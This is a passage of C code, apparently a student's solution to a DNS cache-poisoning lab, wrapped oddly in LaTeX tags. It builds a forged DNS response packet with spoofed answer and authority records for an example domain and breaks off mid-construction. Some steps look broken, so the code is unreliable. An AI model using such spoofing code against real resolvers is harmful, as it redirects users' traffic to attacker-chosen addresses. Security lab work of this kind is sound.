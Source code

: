 \documentclass[a4paper,12pt]{article}
\begin{document}
{		// this is for convinience to get the struct type write the 4bytes in a more organized way.
		    struct dataEnd * end_send=(struct dataEnd *)(data_send+length_send);
		    end_send->type=htons(1);
		    end_send->class=htons(1);
		   
		    
		
		    
		
		
		
		
		
		/////////////////////////////////////////////////////////////////////
		//
		// DNS format, relate to the lab, you need to change them, end
		//
		//////////////////////////////////////////////////////////////////////
		
		
		
		
		////////////////////////////////////////////////////////////////////////
		// This is for FAKE RESPONSE DNS    
		// dns fields(UDP payload field)
		// relate to the lab, you can change them. begin:
		////////////////////////////////////////////////////////////////////////
		
		//The flag you need to set
		/* I set it flag is R */
			dns->flags=htons(FLAG_R);
		//only 1 query, so the count should be one.
			dns->QDCOUNT=htons(1);
		    dns->ANCOUNT=htons(1);
		    dns->NSCOUNT=htons(1);
		    dns->ARCOUNT=htons(2);
		
		
		
		
		
		
		//query string
		    strcpy(data,"\5aaaaa\7example\3com");
		    int length= strlen(data)+1;
		
		//answer string
		
		// this is for convinience to get the struct type write the 4bytes in a more organized way.
		    struct dataEnd * end=(struct dataEnd *)(data+length);
		    end->type=htons(1);
		    end->class=htons(1);
		    length+=4;
		    strcpy(data+length,"\x0c");
		    //type + class
		    length+=2;
		    struct dataEnd * end1=(struct dataEnd *)(data+length);
		    end1->type=htons(1);
		    end1->class=htons(1);
		    length+=4;
		    //datalen + ttl
		   
		    struct datalen * len1=(struct datalen *)(data+length);
		    len1->ttl1=htons(1);
		    len1->ttl2=htons(1);
		    len1->len=htons(4);
		    length+=6;
		    //address
		    strcpy(data+length,"\1\1\1\1");
		    length+=4;
		    //Authority querry
		    strcpy(data+length,"");
		    length+=2;
		    //type + class
		    struct dataEnd * end2=(struct dataEnd *)(data+length);
		    end2->type=htons(2);
		    end2->class=htons(1);
		    length+=4;
		    //datalen + ttl
		    
}
\end{document}
